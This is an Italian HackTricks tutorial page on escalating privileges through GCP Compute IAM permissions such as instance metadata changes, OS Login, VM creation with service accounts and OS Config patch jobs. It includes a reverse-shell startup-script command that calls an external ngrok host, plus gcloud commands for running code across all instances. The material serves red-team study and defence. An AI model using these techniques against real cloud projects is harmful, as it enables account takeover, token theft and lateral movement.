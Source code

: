 # GCP - Escalatione dei Privilegi del Compute

<details>

<summary><strong>Impara l'hacking su AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Esperto Red Team di HackTricks su AWS)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>

## Compute

Per ulteriori informazioni su Compute e VPC (rete) in GCP controlla:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Nota che per eseguire tutti gli attacchi di escalation dei privilegi che richiedono di modificare i metadati dell'istanza (come aggiungere nuovi utenti e chiavi SSH) è **necessario avere le autorizzazioni `actAs` sull'account di servizio allegato all'istanza**, anche se l'account di servizio è già allegato!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Con tale autorizzazione puoi **modificare** le informazioni dei **metadati** di un'**istanza** e cambiare le **chiavi autorizzate di un utente**, o **creare** un **nuovo utente con permessi sudo**. Pertanto, sarai in grado di eseguire l'accesso via SSH a qualsiasi istanza VM e rubare l'Account di Servizio GCP con cui l'istanza sta funzionando.\
Limitazioni:

* Nota che gli Account di Servizio GCP in esecuzione nelle istanze VM di default hanno un **ambito molto limitato**
* Avrai bisogno di essere **in grado di contattare il server SSH** per effettuare l'accesso

Per ulteriori informazioni su come sfruttare questa autorizzazione controlla:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Potresti anche eseguire questo attacco aggiungendo uno nuovo script di avvio e riavviando l'istanza:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Questa autorizzazione conferisce gli **stessi privilegi dell'autorizzazione precedente** ma su istanze specifiche anziché sull'intero progetto. Si applicano **gli stessi exploit e limitazioni della sezione precedente**.

### `compute.instances.setIamPolicy`

Questo tipo di autorizzazione ti permetterà di **concederti un ruolo con i privilegi precedenti** ed elevare i privilegi abusandone.

### **`compute.instances.osLogin`**

Se **OSLogin è abilitato nell'istanza**, con questa autorizzazione puoi semplicemente eseguire **`gcloud compute ssh [ISTANZA]`** e connetterti all'istanza. Non avrai i **privilegi di root** all'interno dell'istanza.

### **`compute.instances.osAdminLogin`**

Se **OSLogin è abilitato nell'istanza**, con questa autorizzazione puoi semplicemente eseguire **`gcloud compute ssh [ISTANZA]`** e connetterti all'istanza. Avrai i **privilegi di root** all'interno dell'istanza.

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

È possibile **creare una macchina virtuale con un Account di Servizio assegnato e rubare il token** dell'account di servizio accedendo ai metadati per elevare i privilegi ad esso.

Lo script di exploit per questo metodo può essere trovato [qui](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Se hai le autorizzazioni **`osconfig.patchDeployments.create`** o **`osconfig.patchJobs.exec`** puoi creare un [**lavoro di patch o distribuzione**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Questo ti permetterà di muoverti lateralmente nell'ambiente e ottenere l'esecuzione di codice su tutte le istanze di calcolo all'interno di un progetto.

Se vuoi sfruttarlo manualmente dovrai creare un [lavoro di patch](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) o una [distribuzione](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json) per eseguire un lavoro di patch:

`gcloud compute os-config patch-jobs execute --file=patch.json`

Per distribuire una distribuzione di patch:

`gcloud compute os-config patch-deployments create my-update --file=patch.json`

Esistono strumenti automatizzati come [patchy](https://github.com/rek7/patchy) per rilevare autorizzazioni lasche e muoversi lateralmente in modo automatico.

**Puoi anche abusarne per la persistenza.**

### `compute.machineImages.setIamPolicy`

**Concediti permessi aggiuntivi** per l'immagine della macchina.

### `compute.snapshots.setIamPolicy`

**Concediti permessi aggiuntivi** per uno snapshot del disco.

### `compute.disks.setIamPolicy`

**Concediti permessi aggiuntivi** per un disco.

### Bypass delle Scope di Accesso

Seguendo questo link troverai alcune [**idee per cercare di aggirare le scope di accesso**](../).

### Escalation dei Privilegi Locali nell'istanza di calcolo GCP

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Riferimenti

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

<details>

<summary><strong>Impara l'hacking su AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata in HackTricks** o **scaricare HackTricks in PDF** controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
